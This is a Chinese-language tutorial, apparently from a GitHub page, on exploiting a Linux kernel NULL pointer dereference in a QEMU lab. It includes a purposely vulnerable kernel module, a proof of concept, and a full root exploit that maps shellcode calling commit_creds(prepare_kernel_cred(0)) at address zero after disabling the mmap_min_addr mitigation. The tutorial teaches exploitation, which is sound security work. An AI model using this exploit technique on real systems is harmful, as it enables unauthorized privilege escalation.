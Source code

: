 # 新手玩转`Linux Kernel`漏洞之`Null Pointer Dereference`
### 前言
> 这是我内核漏洞的入门篇, 不是很复杂, 希望能给徘徊在门外的小伙伴一点启发.

### 漏洞描述
> &nbsp;&nbsp;&nbsp;&nbsp;A NULL pointer dereference occurs when the application dereferences a pointer that it expects to be valid, but is NULL, typically causing a crash or exit.
### 漏洞代码
```c
#include <linux/module.h>
#include <linux/kernel.h>
#include <linux/proc_fs.h>

void (*my_funptr)(void);

int bug1_write(struct file* file, const char* buf, unsigned long len){
    my_funptr();
    return len;
}

static int __int null_dereference_init(void){
    printk(KERN_ALERT "null_dereference driver init!\n");
    create_proc_entry("bug1", 0666, 0)->write_proc = bug1_write;
    return 0;
}

static void __exit null_dereference_exit(void){
    printk(KERN_ALERT "null_dereference driver exit\n");
}
module_init(null_dereference_init);
module_exit(null_dereference_exit);
```
*小结:* 这是一个`Linux Kernel Module`类型代码,载入内核执行初始化`null_dereference_init`. 在`proc`中创建一个`Entry`为`bug1`.当`write bug1`时, 会触发`Kernel`调用`bug1_write`函数,而`bug1_write`中的`my_funptr()`是一个空指针.建议大家去学习一下这段代码中不懂的点, 理解上面这段代码很是重要

### 编译`Module`
```bash
obj-m := null_dereference.o
KERNELDR := /home/bill/CTF/Kernel/linux-2.6.32/
PWD := $(shell pwd)
modules:
	$(MAKE) -C $(KERNELDR) M=$(PWD) modules
modules_install:
	$(MAKE) -C $(KERNELDR) M=$(PWD) modules_install
clean:
	$(MAKE) -C $(KERNELDR) M=$(PWD) clean
```
*需要注意的几点:* `KERNELDR`填写为自己机器的源码根目录, 我自己在`Ubuntu 12.04 i386`上面没有编译成功, 在`Ubuntu 16.04 64bit`上面编译成功了.

将`null_dereference.ko`放入到`busybox-1.19.4/_install/usr`中.
### Poc.c
```c
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <stdio.h>
#include <string.h>
#include <sys/mman.h>

char payload[] = "\xe9\xea\xbe\xad\xde"; //jmp 0xdeadbeef

int main(){
    mmap(0, 4096, PROT_READ|PROT_WRITE|PROT_EXEC, MAP_FIXED | MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
    memcpy(0, payload, sizeof(payload));
    int fd = open("/proc/bug1", O_WRONLY);
    write(fd, "bill", 4); //call my_funptr
    return 0;
}
```
静态编译,放入`busybox-1.19.4/_install/usr`中,`gcc -static Poc.c -o Poc`.

### 调试
重新打包`rootfs.img`, 启动`Qemu`, `CTRL + ALT + 2`, 输入`gdbserver tcp::1234`,
![](./02.png)
`CTRL + ALT + 1`切回命令行,
```
insmod /usr/null_dereference.ko #载入Module
/usr/Poc
```
结果:
![result03](./03.png)
*结论*:证明执行了我们的`shellcode`.
### 提权
> 从普通用户提权到`root`用户.

### 知识点
> &nbsp;&nbsp;&nbsp;&nbsp;进程的特权等级是通过`struct cred`结构体来标识的.当一个进程的`uid,gid`为`0`, 就表明这是一个`root`进程,提权成功.

```c
struct cred {
	atomic_t usage;
	#ifdef CONFIG_DEBUG_CREDENTIALS
	atomic_t	subscribers;	/* number of processes subscribed */
	void		*put_addr;
	unsigned	magic;
#define CRED_MAGIC	0x43736564
#define CRED_MAGIC_DEAD	0x44656144
#endif
	uid_t		uid;		/* real UID of the task */
	gid_t		gid;		/* real GID of the task */
	uid_t		suid;		/* saved UID of the task */
	gid_t		sgid;		/* saved GID of the task */
	uid_t		euid;		/* effective UID of the task */
	gid_t		egid;		/* effective GID of the task */
	uid_t		fsuid;		/* UID for VFS ops */
	gid_t		fsgid;		/* GID for VFS ops */
	......
}
```

### Expolit
1. 思路: 执行`commit_creds(prepare_kernel_cred(0))`
```c
/*
 *prepare_kernel_cred - Prepare a set of credentials for a kernel service
 */
struct cred *prepare_kernel_cred(struct task_struct *daemon);
/*
 * commit_creds - Install new credentials upon the current task
 */
int commit_creds(struct cred* new)
```
2. 获取函数地址
```bash
/# grep prepare_kernel_cred /proc/kallsyms
c1069be0 T prepare_kernel_cred
/# grep commit_creds /proc/kallsyms
c1069a40 T commit_creds
```
3. 编写`shellcode`
```c
xor %eax, %eax
call 0xc1069be0 //prepare_kernel_cred
call 0xc1069a40 //commit_creds
ret
```
保存为`payload.s`
```bash
$ gcc payload.s -o payload -nostdlib -Ttext=0
$ objdump -d payload

00000000 <.text>:
   0:	31 c0                	xor    %eax,%eax
   2:	e8 d9 9b 06 c1       	call   c1069be0 <_end+0xc1068bd0>
   7:	e8 34 9a 06 c1       	call   c1069a40 <_end+0xc1068a30>
   c:	c3  
char payload[] = "\x31\xc0\xe8\xd9\x9b\x06\xc1\xe8\x34\x9a\x06\xc1\xc3";
```
4. 编写`exp.c`
```c
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <stdio.h>
#include <string.h>
#include <sys/mman.h>
/*
 *xor %eax, %eax
 *call 0xc1069be0
 *call 0xc1069a40
 *ret
 */
char payload[] = "\x31\xc0\xe8\xd9\x9b\x06\xc1\xe8\x34\x9a\x06\xc1\xc3";

int main(){
    mmap(0, 4096, PROT_READ|PROT_WRITE|PROT_EXEC, MAP_FIXED | MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
    memcpy(0, payload, sizeof(payload));
    int fd = open("/proc/bug1", O_WRONLY);
    write(fd, "bill", 4); //call my_funptr
		system("/bin/sh");
    return 0;
}
```
编译: `gcc -static exp.c -o exp`, 拷贝入'/usr'目录, 重新打包.
4. 提权
由于内核已经使用`mmap_min_addr`作为缓解措施, 我们需要让你重新为`0`.
```bash
#/ sysctl -w "vm.mmap_min_addr=0"
#/ mdkir -p /home/bill
#/ touch /etc/passwd
#/ touch /etc/group
#/ adduser bill
#/ insmod /usr/null_dereference.ko
#/ su bill
~$ /usr/exp
/home/bill #
```
结果图:
![result04](./04.png)
### 相关链接
[pwn4](http://pwn4.fun/2017/04/19/Linux%E5%86%85%E6%A0%B8%E6%BC%8F%E6%B4%9E%E5%88%A9%E7%94%A8%EF%BC%88%E4%BA%8C%EF%BC%89NULL-Pointer-Dereference/)
[相关文件下载]()

